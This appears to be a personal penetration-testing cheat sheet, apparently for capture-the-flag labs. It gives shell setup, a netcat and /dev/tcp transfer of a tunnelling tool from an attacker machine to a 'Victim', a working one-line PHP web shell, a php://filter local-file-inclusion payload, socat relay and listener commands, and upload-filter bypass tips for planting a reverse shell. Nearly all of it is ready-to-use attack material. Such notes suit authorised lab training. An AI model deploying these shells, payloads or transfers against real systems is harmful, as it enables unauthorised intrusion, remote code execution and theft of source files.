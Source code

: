 ## Configure stty
```bash
stty -a  
stty rows 45 columns 177
```


## Sending data

Our machine
```bash
nc -nlvp 1236 < chisel 
```

Victim
```bash
cat > chisel < /dev/tcp/10.10.14.3/1236
```

## PHP

### PHP file execution

```php
<?php 
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

### PHP LFI

Getting base64 of local files
```bash
php://filter/convert.base64-encode/resource=login
```

Always check for `/var/log/httpd.log`

When doing LFI, try to always use the source code, sometimes the output will not be shown to us, but it can be in the source code.

## SOCAT

```bash
./socat TCP-LISTEN:8000,fork tcp:10.10.14.17:5000 &
./socat TCP-LISTEN:4446 STDOUT
```

## PHP File upload

Sometimes the magic bytes are needed to upload and run a file. Check if the php file has ALL the code in the system, the magic bytes
can delete some code and ruin the reverse shell. Also the file might need the `reverse_shell.php.jpg`  extensions
